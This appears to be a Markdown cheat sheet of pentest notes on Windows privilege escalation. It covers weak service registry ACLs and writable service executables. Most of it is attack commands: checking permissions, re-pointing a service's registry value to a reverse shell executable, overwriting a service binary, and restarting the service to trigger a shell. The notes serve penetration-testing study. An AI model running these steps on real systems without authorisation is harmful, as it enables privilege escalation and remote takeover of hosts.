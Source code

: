 ### Weak registry permissions
The Windows registry stores entries for each service. Since registry entries can have ACLs, if the ACL is misconfigured, it may be possible to modify a service’s configuration even if we cannot modify the service directly.

#### We can confirm a weak registery entry with:
- Powershell
   - ```Get-Acl -Path <REG PATH> | Format-List```
- accesschk.exe
   - ```.\accesschk.exe /accepteula -uvwqk <REG PATH>```

#### Overwrite the <VALUE> of registry key to point to our reverse shell executable:
```
reg add <REG PATH> /v <REG VALUE> /t REG_EXPAND_SZ /d C:\temp\reverse.exe /f
```

#### Start a listener on Kali, and then start the service to trigger the exploit:
```
net stop <SERVICE>
net start <SERVICE>
```

### Insecure Service Executables
If the original service executable is modifiable by our user, we can simply replace it with our reverse shell executable. Remember to create a backup of the original executable if you are exploiting this in a real system!

#### Check if executable is writable
```
.\accesschk.exe /accepteula -quvw "<PATH TO EXE>"
icacls.exe "<PATH TO EXE>"
Get-Acl -Path "<PATH TO EXE>" | fl
```

#### Create a backup of the original service executable:
```
copy "<PATH>" C:\Temp
```

#### Copy the reverse shell executable to overwrite the service executable:
```
copy /Y C:\PrivEsc\reverse.exe "<PATH>"
```

#### Start a listener on Kali, and then start the service to trigger the exploit:
```
net stop <SERVICE>
net start <SERVICE>
```
 